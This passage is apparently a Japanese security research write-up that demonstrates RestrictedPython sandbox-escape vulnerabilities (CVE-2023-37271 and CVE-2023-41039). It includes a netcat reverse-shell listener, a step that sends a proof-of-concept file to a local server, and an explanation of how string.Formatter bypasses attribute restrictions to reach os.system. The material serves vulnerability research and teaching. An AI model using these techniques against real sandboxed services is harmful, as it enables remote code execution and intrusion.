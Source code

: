 
**ホストマシンでのコマンド**

```console
# 別シェルで、reverse-shell待機
nc -l -p 9999  # MacOSだと nc -nvl 9999

# ---

cd dp-system-research/demo/RestrictedPython-CVE

# PoCコード投入
nc localhost 6000 < ./example/cve_2023_37271.py

# ---
# 先程の別シェルで、サーバーサイドのシェル操作ができるようになっている
% uname -a
Linux 6b9a20d3e2ad 6.6.22-linuxkit #1 SMP Fri Mar 29 12:21:27 UTC 2024 aarch64 GNU/Linux
```

### CVE-2023-41039: string.Formatter() の書式文字列内でのアトリビュートアクセスのサニタイズ漏れ（筆者命名）

#### 原理

**TL;DR**

- **`_` の付いたアトリビュートへのアクセス**、RestrictedPythonで禁止していたはずだが、 **`string.Formatter().format()` を使うことでバイパスできた**
  - → `random.Random.__init__` を経由し、 `os.system` にたどり着ける
- `os.system` を引数付きで呼び出すために、 `string.Formatter` を継承したクラスを作って一工夫

---

RestrictedPythonに与えるユーザーコードでは `a.b` のような直接的なアトリビュートアクセスや、 `_` から始まるアトリビュートアクセスが軒並み禁じられており、従ってsandbox escapeに繋がるようなコードが書きづらくなっている。

しかし、 **`string.Formatter().format()` を巧みに使うとこれをバイパス**できる。`string.Formatter().format("{0._someUnderscoredAttr_}", obj0)` は、 `str(obj0._someUnderscoredAttr_)` と同様の意味になる。後者のコードはRestrictedPythonで禁止されているが、前者は禁じられていない。

この挙動を利用し、**なんとか `os.system('reverse-shellコマンド')` を実行したい。**

os のオブジェクトさえ獲得できれば、 `string.Formatter().format("{0.system}", os)` とすることで `str(os.system)` までは至る。まずはここを目指す。

ユーザーコードの中では `random` モジュールが使える。これは `restricted_python_cve/run_server.py` の中で `policy_globals = {**safe_globals,**utility_builtins}` としているのが肝で、この `utility_builtins` の中に `random` モジュールが含まれているためである。

`random` モジュールのコードの中に、 `import os as _os` としている箇所がある。
